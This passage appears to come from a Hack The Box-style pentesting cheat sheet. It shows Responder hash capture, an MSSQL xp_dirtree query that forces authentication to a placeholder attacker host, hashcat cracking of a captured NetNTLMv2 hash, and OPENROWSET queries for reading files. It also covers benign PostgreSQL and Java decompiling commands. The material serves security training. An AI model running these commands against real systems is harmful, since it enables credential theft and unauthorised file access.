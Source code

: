 ```shell-session
w44z@htb[/htb]$ sudo python3 Responder.py -I eth0
```

Code: sql

```sql
EXEC master..xp_dirtree '\\<ATTACKER_IP>\myshare', 1, 1;
```

```shell-session
w44z@htb[/htb]$ hashcat -m 5600 'jason::SQL01:bd7f162c24a39a0f:94DF80C5ABB...SNIP...000000' /usr/share/wordlists/rockyou.txt
```

## [MSSQL] File Read

Code: sql

```sql
-- Check if we have the permissions needed to read files
SELECT COUNT(*) FROM fn_my_permissions(NULL, 'DATABASE') WHERE permission_name = 'ADMINISTER BULK OPERATIONS' OR permission_name = 'ADMINISTER DATABASE BULK OPERATIONS';

-- Get the length of a file
SELECT LEN(BulkColumn) FROM OPENROWSET(BULK '<path>', SINGLE_CLOB) AS x

-- Get the contents of a file
SELECT BulkColumn FROM OPENROWSET(BULK '<path>', SINGLE_CLOB) AS x
```

## Interacting with PostgreSQL

`psql -h <host> -U <username> <database>`

## Decompiling Java Archives

#### Fernflower

Code: bash

```bash
mkdir <OutputDirectory>
java -jar Fernflower.jar <Application>.jar <OutputDirectory>
cd <OutputDirectory>
jar -xf <Application>.jar
```

#### JD-GUI

`jd-gui <Application>.jar`

## Regex Patterns for Finding SQLi Vulnerabilities

Code: regex
